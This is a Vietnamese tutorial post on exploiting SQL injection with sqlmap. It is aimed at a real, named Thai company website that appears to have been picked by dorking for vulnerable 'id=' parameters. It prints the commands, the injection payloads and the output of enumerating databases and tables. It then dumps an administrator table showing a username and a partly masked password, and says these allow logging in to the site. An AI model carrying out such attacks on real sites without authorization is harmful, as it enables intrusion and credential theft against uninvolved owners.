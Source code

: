 ```yaml
---
title: Khai Thác Lỗi SQl Injection (sqlmap)
date: 4/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

## Mô Tả 
### SQLMap là gì

SQLMAP là công cụ khai thác những lổ hỏng của cơ sở dữ liệu SQL. Công cụ này được xem là công cụ khai thác SQL tốt nhất hiện nay. Được giới bảo mật và giới hacker sử dụng thường xuyên. Với người dùng Kali hoặc Back Track 5 thì SQLMAP đã được tích hợp sẵn vào hệ điều hành. Riêng Windows thì chúng ta phải cài đặt thêm python và SQLMAP để sử dụng

Đây là công cụ mã nguồn mở, tự động hóa quá trình phát hiện và khai thác lỗ hổng SQL. Nó đi kèm với một công cụ phát hiện mạnh mẽ, nhiều tính năng thích hợp cho trình kiểm tra thâm nhập cuối cùng

Tải sqlmap tại [https://sqlmap.org/](https://sqlmap.org/) 

--- 

## Khai Thác 
Đầu tiên tôi tìm các liên kết về inurl php id= .co.th
Tôi thử với trang [http://www.megaplanet.co.th/project-details.php?id=26](http://www.megaplanet.co.th/project-details.php?id=26) 


---
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 --dbs

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1040=1040

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 3942 FROM (SELECT(SLEEP(5)))QFnO)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=26 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71766a7871,0x4c6f7467466a4c417963637a566c444b534a596b57574859674653504e4379586256644d66517745,0x7178627171),NULL,NULL,NULL,NULL-- -
---
[21:55:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:55:40] [INFO] fetching database names
[21:55:40] [WARNING] reflective value(s) found and filtering out
[21:55:40] [INFO] resumed: 'information_schema'
[21:55:40] [INFO] resumed: 'megaplanet_db'
available databases [2]:
[*] information_schema
[*] megaplanet_db

[21:55:40] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\www.megaplanet.co.th'

```
Sau khi xác định được tên cơ sở dữ liệu, tôi lại tìm tiếp tên các bảng có trong cơ sở dữ liệu 
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db --tables
[22:09:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:09:57] [INFO] fetching tables for database: 'megaplanet_db'
[22:09:57] [WARNING] reflective value(s) found and filtering out
[22:09:57] [INFO] resumed: 'tb_pic'
[22:09:57] [INFO] resumed: 'tb_project'
[22:09:57] [INFO] resumed: 'config'
[22:09:57] [INFO] resumed: 'project_ref'
[22:09:57] [INFO] resumed: 'tb_sort'
[22:09:57] [INFO] resumed: 'tb_cateproduct'
[22:09:57] [INFO] resumed: 'tb_detailhome'
[22:09:57] [INFO] resumed: 'administrator'
[22:09:57] [INFO] resumed: 'tb_banner'
[22:09:57] [INFO] resumed: 'tb_title'
[22:09:57] [INFO] resumed: 'tb_admin'
[22:09:57] [INFO] resumed: 'news'
[22:09:57] [INFO] resumed: 'tb_seo'
[22:09:57] [INFO] resumed: 'tb_news'
[22:09:57] [INFO] resumed: 'products'
[22:09:57] [INFO] resumed: 'tb_config'
[22:09:57] [INFO] resumed: 'tb_product'
[22:09:57] [INFO] resumed: 'tb_slide'
[22:09:57] [INFO] resumed: 'catpro'
[22:09:57] [INFO] resumed: 'subcatpro'
Database: megaplanet_db
[20 tables]
+----------------+
| administrator  |
| catpro         |
| config         |
| news           |
| products       |
| project_ref    |
| subcatpro      |
| tb_admin       |
| tb_banner      |
| tb_cateproduct |
| tb_config      |
| tb_detailhome  |
| tb_news        |
| tb_pic         |
| tb_product     |
| tb_project     |
| tb_seo         |
| tb_slide       |
| tb_sort        |
| tb_title       |
+----------------+

```
Xác định tên các cột trong bảng
Ta thấy administrator có thể chứa thông tin đăng nhập, nên ta sử dụng lệnh sau để xác định trong bảng administrator
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db -T administrator --dump
[22:14:20] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:14:20] [INFO] fetching columns for table 'administrator' in database 'megaplanet_db'
[22:14:20] [WARNING] reflective value(s) found and filtering out
[22:14:20] [INFO] resumed: 'ID','int(11)'
[22:14:20] [INFO] resumed: 'admin','varchar(50)'
[22:14:20] [INFO] resumed: 'password','varchar(50)'
[22:14:20] [INFO] resumed: 'active','int(11)'
[22:14:20] [INFO] fetching entries for table 'administrator' in database 'megaplanet_db'
Database: megaplanet_db
Table: administrator
[1 entry]
+----+-------+--------+----------+
| ID | admin | active | password |
+----+-------+--------+----------+
| 1  | admin | 1      | adminxxx |
+----+-------+--------+----------+

```
Bảng administrator có 1 bản ghi chứa thông tin của username và password là "admin", "adminxxx" Sử dụng tài khoản này, ta sẽ đăng nhập vào được hệ thống

---

## Chúc May Mắn :D